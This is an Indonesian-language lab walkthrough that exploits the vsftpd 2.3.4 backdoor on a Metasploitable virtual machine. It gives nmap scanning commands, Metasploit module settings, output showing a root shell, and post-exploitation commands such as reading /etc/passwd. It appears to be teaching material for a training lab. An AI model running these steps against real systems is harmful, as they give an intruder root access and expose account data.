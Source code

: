 # Introduction

**Vsftpd**, singkatan dari **_Very Secure FTP Daemon_**, adalah server FTP (_File Transfer Protocol_) yang dirancang dengan fokus utama pada keamanan dan stabilitas. Vsftpd dibuat untuk menjadi server FTP yang ringan, cepat, dan tangguh, yang membuatnya sangat populer di lingkungan Linux.

Kerentanan pada **VSFTPD versi 2.3.4** bukan disebabkan oleh kesalahan pemrograman biasa (_bug_), melainkan karena adanya _backdoor_ yang disisipkan secara sengaja oleh pihak yang tidak bertanggung jawab.

Pada Juli 2011, terungkap bahwa _hacker_ berhasil menyusup ke dalam repositori kode sumber resmi VSFTPD. Mereka kemudian menyisipkan satu baris kode berbahaya ke dalam versi 2.3.4 yang kemudian dirilis secara publik.

Kerentanan ini sangat serius karena merupakan pintu belakang yang disisipkan secara sengaja dan memberikan hak akses tertinggi (_privilege escalation_). Kerentanan ini ditemukan dan diperbaiki dengan cepat, sehingga versi-versi VSFTPD yang lebih baru sudah tidak memiliki masalah ini.

**1. _Reconnaissence_**

- Analisis jaringan yang sedang dipakai untuk mengetahui IP yang digunakan

```
ifconfig
```
- Memindai seluruh jaringan internal yang saling terhubung untuk mencari target
```
nmap -sn <ip_range>

Ex. nmap -sn 192.168.1.0/24   //scanning the whole connected divices
```
**2. _Scanning and Enumeration_**

Memindai spesifik port dan layanan, port default FTP 21
```
nmap -p 21 -sV <ip_metasploitable>
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 08:00:27:68:17:AC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```
**3. _Gaining Access (Exploitation)_**
- Menjalankan Metasploit Framework
```
msfconsole
```
- Mencari modul eksploitasi yang sesuai dengan kerentanan yang ditemukan
```
search vsftpd 2.3.4
```

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```
- Memilih dan mengatur eksploitasi
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <ip_metasploitable>
set LHOST <ip_kali_linux>
```
- Cek _requirement_, pastikan tidak ada yang kurang atau terlewat
```
show options
```
- Jika sudah lengkap, jalankan serangan
```
exploit

```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.22.64:21 - The port used by the backdoor bind listener is already open
[+] 192.168.22.64:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.22.63:33787 -> 192.168.22.64:6200) at 2025-08-21 07:03:24 -0400

```
**4. _Maintaining accsess dan Post exploitation_**
- Verifikasi user atau akses root
```
whoami
```
- Eksplorasi sistem
```
ls -l      //melihat list file dan direktory

```
```
uname -a   //melihat versi kernel dan informasi sistem

```
```
cat /etc/passwd  //melihat daftar user

```
